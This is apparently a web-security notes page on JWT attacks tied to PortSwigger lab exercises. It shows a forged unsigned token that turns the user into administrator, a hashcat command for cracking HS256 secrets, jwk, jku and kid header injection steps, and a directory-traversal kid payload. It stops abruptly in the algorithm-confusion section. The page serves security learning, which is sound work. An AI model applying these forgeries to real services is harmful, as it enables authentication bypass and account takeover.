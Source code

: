 ```yaml
---
title: "JWT Attacks"
draft: false
images: []
description: "Json Web Tokens Attacks"
lead: "Json Web Tokens Attacks"
menu:
  docs:
    parent: "Wapp"
weight: 100
toc: true
---
```


## Accepting arbitrary signatures

JWT libraries typically provide one method for verifying tokens and another that just decodes them. For example, the Node.js library jsonwebtoken has verify() and decode().

Occasionally, developers confuse these two methods and only pass incoming tokens to the decode() method. This effectively means that the application doesn't verify the signature at all.

#### Example:

```
{
    "username": "carlos",
    "isAdmin": false
}
```
```
{
    "username": "administrator",
    "isAdmin": false
}
```

## Accepting tokens with no signature

Among other things, the JWT header contains an alg parameter. This tells the server which algorithm was used to sign the token and, therefore, which algorithm it needs to use when verifying the signature.

JWTs can be signed using a range of different algorithms, but can also be left unsigned. In this case, the alg parameter is set to none, which indicates a so-called "unsecured JWT". Due to the obvious dangers of this, servers usually reject tokens with no signature. However, as this kind of filtering relies on string parsing, you can sometimes bypass these filters using classic obfuscation techniques, such as mixed capitalization and unexpected encodings.

#### Example: 

```
eyJraWQiOiJjYTI1YjdjYS1iNDZhLTQ1MDMtYjJkMC1lMWExYmYwYWRmNzQiLCJhbGciOiJSUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsInN1YiI6IndpZW5lciIsImV4cCI6MTY1NzI5MzU5Nn0.I8O_5wbwLfntRwLPCQvEMUW-_jkfXH-oPiEFLQ_4L2XmTzJHmaZsX2lBIEJjHp7AxwgQqYMmnwn-dc1w0L5q3uGzoMsAahIo3mbQ7__-cVZHZgpGynhc_RJ_Rd8rViW3mMUMNE1GH-SJRJqSc0oHL4JpV_M5xBxtjKfkC6tEAq2b72iWYuKunDsD1S-O1fT5zbizt5kxHfyde1JOAFvjMs8h6NK0lR3AmEVCW3rhdaA0HBww8vjRMcqBMW2eYpNBZnJmDIz5yUrpRjD2G_4h_GDgLPaU41zI8Zv-Ij6YbkyyNu0z94e9W2jmaabf2MW8jgkQq3-u-cmHXupAsSEkJw

{
  "kid": "ca25b7ca-b46a-4503-b2d0-e1a1bf0adf74",
  "alg": "RS256"
}
{
  "iss": "portswigger",
  "sub": "wiener",
  "exp": 1657293596
}
```
Modify the algorithm to "none" and the "sub" to administrator. 

Note: Even if the token is unsigned, the payload part must still be terminated with a trailing dot.

```
eyJraWQiOiJjYTI1YjdjYS1iNDZhLTQ1MDMtYjJkMC1lMWExYmYwYWRmNzQiLCJhbGciOiJub25lIn0.eyJpc3MiOiJwb3J0c3dpZ2dlciIsInN1YiI6ImFkbWluaXN0cmF0b3IiLCJleHAiOjE2NTcyOTM1OTZ9.

{
  "kid": "ca25b7ca-b46a-4503-b2d0-e1a1bf0adf74",
  "alg": "none"
}
{
  "iss": "portswigger",
  "sub": "administrator",
  "exp": 1657293596
}
```

## Brute-forcing secret keys

Some signing algorithms, such as HS256 (HMAC + SHA-256), use an arbitrary, standalone string as the secret key. Just like a password, it's crucial that this secret can't be easily guessed or brute-forced by an attacker. Otherwise, they may be able to create JWTs with any header and payload values they like, then use the key to re-sign the token with a valid signature. 

You can use <a href="https://raw.githubusercontent.com/wallarm/jwt-secrets/master/jwt.secrets.list" target="_blank">this wordlist</a>

```
hashcat -a 0 -m 16500 <jwt> <wordlist>
```

## JWT header parameter injections
According to the JWS specification, only the alg header parameter is mandatory. In practice, however, JWT headers (also known as JOSE headers) often contain several other parameters. The following ones are of particular interest to attackers.

* **jwk (JSON Web Key)** - Provides an embedded JSON object representing the key.

* **jku (JSON Web Key Set URL)** - Provides a URL from which servers can fetch a set of keys containing the correct key.

* **kid (Key ID)** - Provides an ID that servers can use to identify the correct key in cases where there are multiple keys to choose from. Depending on the format of the key, this may have a matching kid parameter.

### Injecting self-signed JWTs via the jwk parameter

The JSON Web Signature (JWS) specification describes an optional jwk header parameter, which servers can use to embed their public key directly within the token itself in JWK format.

```
1. Go to the JWT Editor Keys tab in Burp's main tab bar.

2. Click New RSA Key.

3. In the dialog, click Generate to automatically generate a new key pair, then click OK to save the key. Note that you don't need to select a key size as this will automatically be updated later.

4. At the bottom of the JSON Web Token tab, click Attack, then select Embedded JWK. When prompted, select your newly generated RSA key and click OK.

5. In the header of the JWT, observe that a jwk parameter has been added containing your public key.
```

### Injecting self-signed JWTs via the jku parameter

Instead of embedding public keys directly using the jwk header parameter, some servers let you use the jku (JWK Set URL) header parameter to reference a JWK Set containing the key. When verifying the signature, the server fetches the relevant key from this URL.

JWK Sets like this are sometimes exposed publicly via a standard endpoint, such as /.well-known/jwks.json.

You can see an example of this below.

```
{
    "keys": [
        {
            "kty": "RSA",
            "e": "AQAB",
            "kid": "75d0ef47-af89-47a9-9061-7c02a610d5ab",
            "n": "o-yy1wpYmffgXBxhAUJzHHocCuJolwDqql75ZWuCQ_cb33K2vh9mk6GPM9gNN4Y_qTVX67WhsN3JvaFYw-fhvsWQ"
        },
        {
            "kty": "RSA",
            "e": "AQAB",
            "kid": "d8fDFo-fS9-faS14a9-ASf99sa-7c1Ad5abA",
            "n": "fc3f-yy1wpYmffgXBxhAUJzHql79gNNQ_cb33HocCuJolwDqmk6GPM4Y_qTVX67WhsN3JvaFYw-dfg6DH-asAScw"
        }
    ]
}
```

Then you can see <a href="https://portswigger.net/web-security/jwt/lab-jwt-authentication-bypass-via-jku-header-injection" target="_blank">this lab</a> to exploit the vulnerability.

### Injecting self-signed JWTs via the kid parameter

Servers may use several cryptographic keys for signing different kinds of data, not just JWTs. For this reason, the header of a JWT may contain a kid (Key ID) parameter, which helps the server identify which key to use when verifying the signature.

Verification keys are often stored as a JWK Set. In this case, the server may simply look for the JWK with the same kid as the token. However, the JWS specification doesn't define a concrete structure for this ID - it's just an arbitrary string of the developer's choosing. For example, they might use the kid parameter to point to a particular entry in a database, or even the name of a file.

If this parameter is also vulnerable to directory traversal, an attacker could potentially force the server to use an arbitrary file from its filesystem as the verification key.

```
{
    "kid": "../../path/to/file",
    "typ": "JWT",
    "alg": "HS256",
    "k": "asGsADas3421-dfh9DGN-AFDFDbasfd8-anfjkvc"
}
```

Then you can see <a href="https://portswigger.net/web-security/jwt/lab-jwt-authentication-bypass-via-kid-header-path-traversal" target="_blank">this lab</a> to exploit the vulnerability.

## Algorithm confusion attacks

Algorithm confusion attacks (also known as key confusion attacks) occur when an attacker is able to force the server to verify the signature of a JSON web token (JWT) using a different algorithm than is intended by the website's developers. If this case isn't handled properly, this may enable attackers to forge valid JWTs containing arbitrary values without needing to know the server's secret signing key. 4201979